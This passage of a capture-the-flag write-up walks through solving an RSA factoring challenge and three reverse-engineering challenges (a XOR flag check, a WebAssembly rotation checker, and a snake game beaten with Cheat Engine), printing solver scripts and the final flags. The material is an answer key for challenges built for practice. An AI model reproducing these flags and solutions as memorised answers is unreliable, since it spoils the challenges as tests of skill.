def main():
    wi = get_william_prime()
    po = get_pollard_prime()
    fp, fq = get_fermat_prime()

    n = wi * po * po * fp * fq
    e = 0x10001
    m = int.from_bytes(open('flag.txt').read().strip().encode())
    c = pow(m, e, n)

    print(f'n = {n}')
    print(f'e = {e}')
    print(f'c = {c}')

main()
```
the function names already tell us the solution, just use the factoring methods related to the people
```py
from Crypto.Util.number import long_to_bytes
from gmpy2 import iroot
import builtins

n = 607637189...
N = n
e = 65537
c = 442070308...

#get_pollard_prime hints to pollards p-1
#modified from https://ir0nstone.gitbook.io/crypto/rsa/factorisation-methods/pollards-p-1
def pollards(n, iterations=10000):
    cur = 2
    
    for i in range(2, iterations):
        cur = pow(cur, i, n)
        tst = gcd(cur-1, n)
        
        if tst != 1:
            return tst
    else:
        return None

po = pollards(n)
print(f'po: {po}')
n//=po
n//=po
#------------------------
#get_william_prime hints to williams p+1
#modified from https://programmingpraxis.com/2010/06/04/williams-p1-factorization-algorithm/
def ilog(x, base):
    return int(log(x, base))

def primegen():
    yield 2; yield 3; yield 5; yield 7; yield 11; yield 13
    ps = primegen() # yay recursion
    p = builtins.next(ps)
    p = builtins.next(ps)
    q, sieve, n = p^2, {}, 13
    while True:
        if n not in sieve:
            if n < q: yield n
            else:
                next, step = q + 2*p, 2*p
                while next in sieve: next += step
                sieve[next] = step
                p = builtins.next(ps)
                q = p^2
        else:
            step = sieve.pop(n)
            next = n + step
            while next in sieve: next += step
            sieve[next] = step
        n += 2

def mlucas(v, a, n):
    v1, v2 = v, (v**2 - 2) % n
    for bit in bin(a)[3:]: v1, v2 = ((v1**2 - 2) % n, (v1*v2 - v) % n) if bit == "0" else ((v1*v2 - v) % n, (v2**2 - 2) % n)
    return v1
 
def williams_pp1(n, max_v):
    for v in range(max_v):
        for p in primegen():
            if p>=n: break
            e = ilog(sqrt(n), p)
            if e == 0: break
            for _ in range(e): v = mlucas(v, p, n)
            g = gcd(v - 2, n)
            if 1 < g < n: return g
            if g == n: break

wi = williams_pp1(n,5)
print(f'wi: {wi}')
n//=wi
#------------------------
#get_fermat_prime hints to fermat's factorization method
#https://en.wikipedia.org/wiki/Fermat%27s_factorization_method#Basic_method
def fermat_factor(n):
    a = int(isqrt(n)) + 1
    b = iroot(a ** 2 - n, 2)
	
    while not b[1]:
        a += 1
        b = iroot(a ** 2 - n, 2)
        print(a)
    b = int(b[0])
    return (a - b), (a + b)

fp, fq = fermat_factor(n)
print(f'fp, fq: {fp}, {fq}')

phi = po*(po-1)*(wi-1)*(fp-1)*(fq-1)
d = inverse_mod(e, phi)
m = pow(c, d, N)
print(long_to_bytes(m))
```
output:
```
po: 37021275572790082192379533288704688535293473545958385025549690675904471573219980209972828244025329762230759053863199755658020475141048058736510710680444844461116108035174159013570815934305537913272505253121747245324932852742564134158131504996633322520519431558100438167
wi: 13724774538447070327979693614547817168124884989451610940801578056279057833807379694848872164279961986596312325493146862956197489865548344532953497594522647140137603497421573845399796269120931218582151408919487607271970333135495886340580331325745398768576950542146604563970373
fp, fq: 1797290114159693323989762096979140187698485236416597675521859185650014625929914125199112031072687163725036991060223004058282636353560186927474270239776076165008500410649005184281171706694080829043361520951700099156403590420648240134975686551614552593433626075522047925249225912399803655009044583112072831069, 1797290114159693323989762096979140187698485236416597675521859185650014625929914125199112031072687163725036991060223004058282636353560186927474270239776076798589587543514454032951000956290817627291716666905485856531167667731334844508903552262166793410065299546829046316294630547983330097778364431516673829323
b'AIS3{H@ppY_#ap9y_CRypT0_F4(7or1n&~~~}'
```
flag: **`AIS3{H@ppY_#ap9y_CRypT0_F4(7or1n&~~~}`**

# Reverse
## AIS3 Tiny Server - Reverse
throwing `tiny` in IDA we can see a suspicious encryption function `sub_1E20`:
```c {hl_lines=17}
index = 0;
enc_chr = '3';
key_chr = 'r';
enc[0] = 1480073267;
enc[1] = 1197221906;
enc[2] = 254628393;
enc[3] = 920154;
enc[4] = 1343445007;
enc[5] = 874076697;
enc[6] = 1127428440;
enc[7] = 1510228243;
enc[8] = 743978009;
enc[9] = 54940467;
enc[10] = 1246382110;
qmemcpy(key, "rikki_l0v3", sizeof(key));
while ( 1 ) {
    *((_BYTE *)enc + index++) = enc_chr ^ key_chr;
    if ( index == 45 )
        break;
    enc_chr = *((_BYTE *)enc + index);
    key_chr = key[index % 10];
}
for ( i = 0; i != 45; ++i ) {
    input_chr = *(_BYTE *)(input + i);
    if ( !input_chr || input_chr != *((_BYTE *)enc + i) )
        return 0;
}
return *(_BYTE *)(input + 45) == 0;
```
yea it's just inverting xor by xoring it again. how curious!
```py
from Crypto.Util.number import long_to_bytes

enc = [1480073267,1197221906,254628393,920154,1343445007,874076697,1127428440,1510228243,743978009,54940467,1246382110]

enc2 = bytearray()
for val in enc:
    enc2.extend(long_to_bytes(val, 4)[::-1]) #little endian so reverse
    
key = b"rikki_l0v3"
for i in range(len(enc2)):
    enc2[i] ^= key[i % 10]

print(enc2[:45].decode('ascii'))
```
flag: **`AIS3{w0w_a_f1ag_check3r_1n_serv3r_1s_c00l!!!}`**

## web flag checker
disassembling the wasm with ghidra we'll find a function named `export::flagchecker`
```c
undefined4 export::flagchecker(int param1){
  int iVar1;
  int iVar2;
  longlong lVar3;
  int index;
  longlong local_40 [4];
  undefined8 local_20;
  undefined4 local_c;
  int local_8;
  undefined4 isCorrect;
  
  local_c = 0xfd9ea72d;
  local_40[0] = 0x69282a668aef666a;
  local_40[1] = 0x633525f4d7372337;
  local_40[2] = 0x9db9a5a0dcc5dd7d;
  local_40[3] = 0x9833afafb8381a2f;
  local_20 = 0x6fac8c8726464726;
  if ((param1 == 0) ||
     (local_8 = param1, iVar2 = unnamed_function_13(param1), iVar1 = local_8, iVar2 != 0x28)) {
    isCorrect = 0;
  }
  else {
    for (index = 0; index < 5; index = index + 1) {
      lVar3 = unnamed_function_8(*(undefined8 *)(iVar1 + index * 8),
                                 0xfd9ea72dU >> (index * 6 & 0x1fU) & 0x3f);
      if (lVar3 != local_40[index]) {
        return 0;
      }
    }
    isCorrect = 1;
  }
  return isCorrect;
}
```
which uses `unnamed_function_13`:
```c
int unnamed_function_13(uint *param1){
  uint *puVar1;
  uint *puVar2;
  
  puVar2 = param1;
  if (((uint)param1 & 3) == 0) {
code_r0x800008db:
    do {
      puVar1 = puVar2;
      puVar2 = puVar1 + 1;
    } while (((0x1010100 - *puVar1 | *puVar1) & 0x80808080) == 0x80808080);
	// if 
    do {
      puVar2 = puVar1;
      puVar1 = (uint *)((int)puVar2 + 1);
    } while (*(char *)puVar2 != '\0');
  }
  else {
    if (*(char *)param1 == '\0') {
      return 0;
    }
    do {
      puVar2 = (uint *)((int)puVar2 + 1);
      if (((uint)puVar2 & 3) == 0) goto code_r0x800008db;
    } while (*(char *)puVar2 != '\0');
  }
  return (int)puVar2 - (int)param1;
}
```
figuring these operations out is challenging, so we'll resort to trial and error:
```
1234567890 -> 10
1234567890123 -> 13
 -> 0
```
and sure enough its just `strlen()`, which confirms our flag is 40 chars\
lets check `unnamed_function_8`:
```c
ulonglong unnamed_function_8(ulonglong param1,uint param2){
  return param1 << ((ulonglong)param2 & 0x3f) | param1 >> ((ulonglong)(0x40 - param2) & 0x3f);
}
```
it combines our `param1` shifted to the left by `param2` bits, and shifted to the right by `(64 - param2)` bits\
which is essentially shift `param1` left by `param2` bits\
so this line just takes five 6-bits from `0xfd9ea72d` as shift amount
```c
iVar3 = unnamed_function_8(*(undefined8 *)(iVar1 + index * 8), 0xfd9ea72dU >> (index * 6 & 0x1fU) & 0x3f);
```
which are `[61, 39, 42, 28, 45]`\
now we have enough info to solve!
```py
from Crypto.Util.number import *

def ror(x, n):
    return ((x >> n) | (x << (64-n))) & 0xffffffffffffffff

shift = [45, 28, 42, 39, 61] #the shifts are applied in reverse order
enc = [0x69282a668aef666a,0x633525f4d7372337,0x9db9a5a0dcc5dd7d,0x9833afafb8381a2f,0x6fac8c8726464726]

blocks = [ror(t, s) for t, s in zip(enc, shift)]
flag = b''.join(long_to_bytes(b)[::-1] for b in blocks) #dont forget little endian
print(flag)
```
flag: **`AIS3{W4SM_R3v3rsing_w17h_g0_4pp_39229dd}`**

## A_simple_snake_game
first open up IDA and analyze, we can see a suspicious check in `SnakeGame::Screen::drawText`
```c {hl_lines=1}
if ( (int)this <= 11451419 || a3 <= 19810 ) {
    SnakeGame::Screen::createText[abi:cxx11](a1, this, a3);
    // ...
} else {
    v14[0] = -831958911;
    v14[1] = -1047254091;
	// ...
```
noticing the random numbers i suspected this must be the win condition. lets trace `this` and `a3`\
`drawText` is called by `update`:
```c
int __userpurge SnakeGame::Screen::update@<eax>(_DWORD *a1@<ecx>, SnakeGame::Screen *this, int a3, char a4, bool a5) {
  SDL_UpdateTexture(a1[2], 0, a1[6], 3200);
  SDL_RenderClear(a1[1]);
  SDL_RenderCopy(a1[1], a1[2]);
  if ( a4 != 1 )
    SnakeGame::Screen::drawText(this, a3, 0);
  return SDL_RenderPresent(a1[1]);
}
```
which is called in the main logic:
```c {hl_lines=7}
while ( !v32 && v23 > 0 ) {
    // ...
    drawWalls(v20, v26);
    SnakeGame::Screen::update(v33, v23, 0, v14);
```
we can infer that `v33` is our score, as it gets incremented by food's value:
```c {hl_lines=4}
if ( (unsigned __int8)SnakeGame::Snake::collidesWith((SnakeGame::Snake *)v21, v12) ) {
	SnakeGame::Food::Food(v27);
	SnakeGame::Food::operator=(v27);
	v33 = (SnakeGame::Screen *)((char *)v33 + SnakeGame::Food::S_VALUE);
	SnakeGame::Snake::addSection(v8);
}
```
and we can infer that v23 is our lives, since we immediately die when it reaches 0:
```c {hl_lines=1}
if ( !v23 ) {
    SnakeGame::Screen::clear(v6);
    SnakeGame::Screen::drawGameOver(v10);
    SnakeGame::Screen::update(v33, v23, 1, v14);
    holdGame((SnakeGame::Screen *)v26, 3000);
}
```
thus our win condition is `score >= 11451419 && lives > 19810`\
...which is humanly impossible. lets use cheat engine!\
modifying score is trivial, but for lives it actually counts down from 3, instead of whats shown on screen (counts down from 2), so a little bit of trolling here
\
flag: **`AIS3{CH3aT_Eng1n3?_0fcau53_I_bo_1T_by_hAnD}`**